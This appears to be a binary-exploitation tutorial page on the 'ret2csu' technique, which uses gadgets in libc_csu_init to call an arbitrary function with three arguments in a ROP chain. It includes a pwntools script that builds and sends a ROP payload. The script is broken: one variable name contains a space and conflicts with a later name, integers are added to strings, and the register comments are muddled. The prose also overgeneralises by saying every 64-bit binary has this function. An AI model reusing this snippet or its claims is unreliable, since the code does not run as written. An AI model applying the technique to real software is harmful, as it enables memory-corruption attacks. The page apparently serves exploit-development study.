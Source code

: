 

# **libc_csu_init**

## **Call Arbitrary Functions (with up to three arguments)**

Sometimes when building ROP chains, we need to set argument registers for a function call. Unfortunately, finding individual gadgets to set all of these registers without interfering with anything else is

1. Time consuming
2. Often requires creative gadget juggling when you can't just pop `rsi`/`rdi`/`rdx`/etc.
3. Setting each register individually takes extra space which we may not have

Luckily for us, every **<u>64 bit</u>** binary will include a function called "libc_csu_init" (32 bit binaries include a different version of this function as well, but it doesn't have the same affect. The calling convention for 32 bit binaries puts all of the arguments on the stack, so we don't need to worry about special gadgets like this on). Near the bottom of this function, we can see the loop shown below:

![](../media/libc_csu_init.jpeg)

We can quickly call an arbitrary function pointer with arguments of our choosing by setting the following registers:

- r13: argument 1
- r14: argument 2
- r15: argument 3
- r12/rbx: function pointer
- rbx/rbp: number of iterations to loop for

Setting these registers is trivial though, as we can simply use the same function. Notice the block which is called after the loop completes - it will pop every argument we need directly off the stack and into the appropriate register. See the example code below for a pwntools implimentation

```python
from pwn import *

p = process('path/to/binary')
binary base = 0x00400000 # base address of program (not libc)
num_calls = 1 # number of times we want to call our function
rop = ''

# return of libc_csu_init (popping arguments)
rop += binary_base + 0x69c # offset may vary based on libc version

# set up arguments
rop += p64(0xbadc0de + num_calls) # rbp
rop += p64(0xbadc0de) # rbx (arbitrary string with no null bytes)
rop += p64(0xdeadbeef - (0xbadc0de * 8)) # function pointer
rop += 'A' * 8 # arg 1
rop += 'B' * 8 # arg 2
rop += 'C' * 8 # arg 3

# call our function pointer with desired arguments
rop += binary_base + 0x680 # offset may vary based on libc version

p.sendline(rop)

```





